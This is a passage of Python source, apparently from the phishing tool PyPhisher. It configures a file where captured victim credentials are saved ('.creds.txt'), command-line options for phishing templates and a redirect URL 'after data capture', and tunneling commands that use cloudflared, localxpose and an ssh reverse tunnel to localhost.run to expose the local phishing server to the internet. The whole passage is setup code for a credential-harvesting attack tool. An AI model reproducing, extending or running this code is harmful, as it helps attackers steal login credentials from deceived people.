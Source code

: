 lx_command = f"{tunneler_dir}/loclx"
if isdir("/data/data/com.termux/files/home"):
    termux = True
    cf_command = f"termux-chroot {cf_command}"
    lx_command = f"termux-chroot {lx_command}"
    saved_file = "/sdcard/.creds.txt"
else:
    termux = False
    saved_file = f"{home}/.creds.txt"


print(f"\n{info}Please wait!{nc}")

argparser = ArgumentParser()

argparser.add_argument("-p", "--port", type=int, default=default_port, help=f"PyPhisher's server port [Default : {default_port}]")
argparser.add_argument("-o", "--option", help="PyPhisher's template index [Default : null]")
argparser.add_argument("-t", "--tunneler", default=default_tunneler, help=f"Tunneler to be chosen while url shortening [Default : {default_tunneler}]")
argparser.add_argument("-r", "--region", help="Region for loclx [Default: auto]")
argparser.add_argument("-s", "--subdomain", help="Subdomain for loclx [Pro Account] (Default: null)")
argparser.add_argument("-u", "--url", help="Redirection url after data capture [Default : null]")
argparser.add_argument("-m", "--mode", help="Mode of PyPhisher [Default: normal]")
argparser.add_argument("-e", "--troubleshoot", help="Troubleshoot a tunneler [Default: null]")
argparser.add_argument("--nokey", help="Use localtunnel without ssh key [Default: False]", action="store_false")
argparser.add_argument("--noupdate", help="Skip update checking [Default : False]", action="store_false")


args = argparser.parse_args()

port = args.port
option = args.option
region = args.region
subdomain = args.subdomain
tunneler = args.tunneler
url = args.url
mode = args.mode
troubleshoot = args.troubleshoot
key = args.nokey if mode != "test" else False
update = args.noupdate

local_url = f"127.0.0.1:{port}"

ts_commands = {
    "cloudflared": f"{cf_command} tunnel -url {local_url}",
    "localxpose": f"{lx_command} tunnel http -t {local_url}",
    "localhostrun": f"ssh -R 80:{local_url} localhost.run -T -n",
    "cf": f"{cf_command} tunnel -url {local_url}",
    "loclx": f"{lx_command} tunnel http -t {local_url}",
    "lhr": f"ssh -R 80:{local_url} localhost.run -T -n"
}
